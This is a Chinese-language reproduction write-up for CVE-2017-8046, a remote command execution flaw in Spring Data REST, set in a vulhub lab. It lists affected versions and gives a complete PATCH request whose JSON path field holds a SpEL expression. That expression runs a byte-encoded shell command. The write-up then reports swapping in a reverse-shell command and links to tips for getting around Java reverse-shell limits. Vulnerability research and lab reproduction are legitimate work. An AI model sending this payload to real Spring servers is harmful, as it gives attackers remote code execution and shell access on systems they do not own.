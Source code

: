 （CVE-2017-8046）Spring Data Rest 远程命令执行漏洞
==================================================

一、漏洞简介
------------

Spring Data REST是一个构建在Spring
Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST
API的Patch方法中（实现RFC6902），path的值被传入setValue，导致执行了SpEL表达式，触发远程命令执行漏洞。

二、漏洞影响
------------

PivotalSpringDataREST2.5.12之前的版本，2.6.7之前的版本，3.0RC3之前的版本

SpringBoot2.0.0M4之前版本

SpringDataKay-RC3之前的版本

三、复现过程
------------

访问`http://www.0-sec.org:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

    PATCH /customers/1 HTTP/1.1
    Host: www.0-sec.org:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json-patch+json
    Content-Length: 202

    [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`。然后进入容器`docker-compose exec spring bash`看看：

![2.png](./.resource/(CVE-2017-8046)SpringDataRest远程命令执行漏洞/media/rId24.png)

可见，success成功创建。

将bytecode改成反弹shell的命令（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)），成功弹回：

![1.png](./.resource/(CVE-2017-8046)SpringDataRest远程命令执行漏洞/media/rId26.png)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-8046

